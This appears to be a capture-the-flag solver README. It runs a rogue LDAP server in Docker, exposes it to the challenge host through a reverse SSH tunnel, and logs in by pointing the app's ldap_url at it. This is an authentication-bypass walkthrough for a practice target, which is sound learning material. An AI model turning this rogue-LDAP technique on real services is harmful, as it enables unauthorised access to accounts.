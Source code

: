 # Solver

```sh
docker build -t devserv-solver-ldap .
docker run -it --rm -p 1234:389 devserv-solver-ldap
```

Open another terminal and run the following command:

```sh
ssh -NR '5678:localhost:1234' git@chal-lz56g6.wanictf.org
```

Then open the browser and sign in with user id `alice`, password `alice_pass`, and ldap_url `ldap://localhost:5678`.
